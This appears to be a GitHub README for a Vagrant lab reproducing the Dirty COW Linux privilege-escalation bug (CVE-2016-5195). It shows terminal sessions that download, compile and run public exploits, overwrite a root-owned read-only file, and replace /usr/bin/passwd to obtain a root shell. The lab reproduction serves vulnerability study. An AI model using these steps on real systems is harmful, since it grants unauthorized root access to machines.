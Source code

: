 # CVE-2016-5195_DirtyCow 

## Vulnerability information

 * Description

	Race condition in mm/gup.c in the Linux kernel 2.x through 4.x before 4.8.3 allows local users to gain privileges by leveraging incorrect handling of a copy-on-write (COW) feature to write to a read-only memory mapping, as exploited in the wild in October 2016, aka "Dirty COW."

## vagrant up

```
$ vagrant up
Bringing machine 'vve.test' up with 'virtualbox' provider...
==> vve.test: Importing base box 'debian/wheezy64'...
==> vve.test: Matching MAC address for NAT networking...
==> vve.test: Checking if box 'debian/wheezy64' is up to date...
==> vve.test: Setting the name of the VM: CVE-2016-5195_DirtyCow_vvetest_1518397500434_97609
==> vve.test: Fixed port collision for 22 => 2222. Now on port 2200.
==> vve.test: Clearing any previously set network interfaces...
(snip)
    vve.test: Guest Additions Version: 4.3.18
    vve.test: VirtualBox Version: 5.2
==> vve.test: Configuring and enabling network interfaces...
```

## vagrant ssh

```
$ vagrant ssh
Linux debian-780-wheezy 3.2.0-4-amd64 #1 SMP Debian 3.2.65-1 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 24 08:15:24 2015 from 10.0.2.2
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (ja_JP.UTF-8)
```

# POC

## dirtyc0w 

exploited

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/dirtyc0w.c
$ sudo -s
# echo this is not a test > foo
# chmod 0404 foo
$ ls -lah foo
-r-----r-- 1 root root 19 Oct 20 15:23 foo
$ cat foo
this is not a test
$ gcc -pthread dirtyc0w.c -o dirtyc0w
$ ./dirtyc0w foo m00000000000000000
mmap 56123000
madvise 0
procselfmem 1800000000
$ cat foo
m00000000000000000
```

## cowroot.c

compile error

```
$ wget https://gist.githubusercontent.com/rverton/e9d4ff65d703a9084e85fa9df083c679/raw/9b1b5053e72a58b40b28d6799cf7979c53480715/cowroot.c
$ gcc cowroot.c -o cowroot -pthread
cowroot.c: In function 'procselfmemThread':
cowroot.c:98:9: warning: passing argument 2 of 'lseek' makes integer from pointer without a cast [enabled by default]
In file included from cowroot.c:27:0:
/usr/include/unistd.h:331:16: note: expected '__off_t' but argument is of type 'void *'
```

## pokemon.c

```
$ wget https://raw.githubusercontent.com/dirtycow/dirtycow.github.io/master/pokemon.c
$ echo pikachu|sudo tee pokeball;ls -l pokeball;gcc -pthread pokemon.c -o d;./d pokeball miltank;cat pokeball
pikachu
-rw-r--r-- 1 root root 8 Feb 12 02:09 pokeball
pokeball
   (___)
   (o o)_____/
    @@ `     \
     \ ____, /miltank
     //    //
    ^^    ^^
mmap 7f3aec09e000
madvise 0
ptrace 0
```

## c0w.c

got root

```
vagrant@debian-780-wheezy:~/c0w$ wget https://gist.githubusercontent.com/KrE80r/42f8629577db95782d5e4f609f437a54/raw/71c902f55c09aa8ced351690e1e627363c231b45/c0w.c
vagrant@debian-780-wheezy:~/c0w$ gcc -pthread c0w.c  -o c0w
vagrant@debian-780-wheezy:~/c0w$ ./c0w

   (___)
   (o o)_____/
    @@ `     \
     \ ____, //usr/bin/passwd
     //    //
    ^^    ^^
DirtyCow root privilege escalation
Backing up /usr/bin/passwd to /tmp/bak
mmap 2df04000

madvise 0

ptrace 0

vagrant@debian-780-wheezy:~/c0w$ /usr/bin/passwd
root@debian-780-wheezy:/home/vagrant/c0w# whoami
root
```



# Reference 

  * https://dirtycow.ninja/
  * https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
  * https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
  * https://security-tracker.debian.org/tracker/CVE-2016-5195


